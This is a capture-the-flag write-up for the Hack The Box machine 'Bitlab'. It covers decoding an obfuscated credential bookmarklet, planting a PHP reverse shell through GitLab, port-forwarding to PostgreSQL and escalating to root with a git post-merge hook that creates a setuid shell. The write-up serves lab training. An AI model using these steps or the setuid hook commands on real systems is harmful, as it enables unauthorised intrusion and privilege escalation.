# Bitlab

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/207"></a>
  <br>
</h1>
<h4 align="center"> Author: <a href="https://www.hackthebox.eu/home/users/profile/33283" > Frey </a> & <a href="https://www.hackthebox.eu/home/users/profile/4615"> thek </a></h4>

***

__Machine IP__: 10.10.10.114

__DATE__ : 20/09/2019

__START TIME__: 8:05 PM

***

## Nmap


I've got two open port. Let's start our enumeration with HTTP service.

***

## HTTP

When we visit the website we get the login page as similar to what we get when we try to login in `GitLab`.



On the footer we can see 3 links.


The `About GitLab` takes us to `about.gitlab.com` so that is obviously not our vector. The other two options are linked to machine IP so I clicked on `help` and it gave up a directory listing.



I opened that `bookmark.html` and it had few other links.



Now all the links were linked to original sites like hackthebox or php.net but the last link was weird. If we click on that it takes us no where instead we can see javascript code in our URL bar.

```javascript
javascript:(function(){
        var _0x4b18=["\x76\x61\x6C\x75\x65",
                    "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E",
                    "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
                    "\x63\x6C\x61\x76\x65",
                    "\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64",
                    "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"
                    ];
        document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

I took all the hex value and conveted them to strings using python.



```
['value', 'user_login', 'getElementById', 'clave', 'user_password', '11des0081x']
```

So now we have the username and password.

`clave:11des0081x`

***

## PWN user

After login We can see that there are two profile options.



I choosed the `Administrator/profile` and it had lot of `shell.php` so most probably those were shell for other people working on the server 😄😄. I encountered a very funny name.



I edited the `index.php` with the `pentest monkey php` reverse shell and then visited the `/settings` which triggered the reverse shell.



I looked around couldn't find anything, [@theart42]() said look around the Gitlab interface there I found a snippet for `postgres`



So now we know that there is a table called `profiles` and the credential for postgress is `profiles:profiles`

[@theart42](https://twitter.com/theart42) told me that there is psql service running. I did `netstat -antp` and notice the default port for postgresql was open i.e `5432` port was open.



The problem is that this is running in side a docker.



We need to forward the port to the machine so we can connect to it. I tried using `nc` for portforwarding but that didn't worked so I had to start metasploit listener because it have a option to portforward.

I started the msf listener with the following options:


```bash
portfwd add -l 5432 -p 5432 -r 127.0.0.1
```

Once this is done type `shell` and then run the following command:

```bash
psql -h 127.0.0.1 -U profiles -W
```

Now we can go to `profiles` tabe and get the password for clave.

`clave:c3NoLXN0cjBuZy1wQHNz==`

__NOTE__: I didn't use the clave account to root it. So in a way you don't even have to go to user.

There is a `RemoteConnection.exe` that we need to reverse which might give us the option to root this machine. The problem was that I couldn't figure out how to do it.

## Privilege escalation (using git pull)

I found out that `www-data` have sudo privileges.



This means `www-data` can run `git pull` as `root`. We can use this with the help of `hook (post-merge) in git`. To do this first move the `profile`

I moved the `profiles` remove to `/tmp`.

```bash
$ cp /var/www/html/profile /tmp/
```



After that we need to make a hook in `/tmp/profile/.git/hooks`

```bash
echo '#!/bin/sh' > post-merge
echo 'cp /bin/sh /tmp' >> post-merge
echo 'chown root:root /tmp/sh' >> post-merge
echo 'chmod 4755 /tmp/sh' >> post-merge
```

We are doing this because we want all this to happen after the merge(`post-merge`). This hook will make a `sh` file in `/tmp` and then we can use that to give ourself a root shell.

Now we need to add a new file and then merge it to the repo. But make sure one to check the `Remove source branch after merge`.



Also check that while making the merge



Merge that request and then in the `/tmp/profiles` do

```bash
sudo -u root git  pull
```


and now we can get the root flag.




***

This was a beginner level machine since the only issue one might have is in running the RCE exploit.

Thanks to [askar](https://twitter.com/askar) for making this machine.

Also thanks to [@4ndr34z](https://twitter.com/4nqr34z) and [@d4mianwayne](https://twitter.com/D4mianWayne) for great team work.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
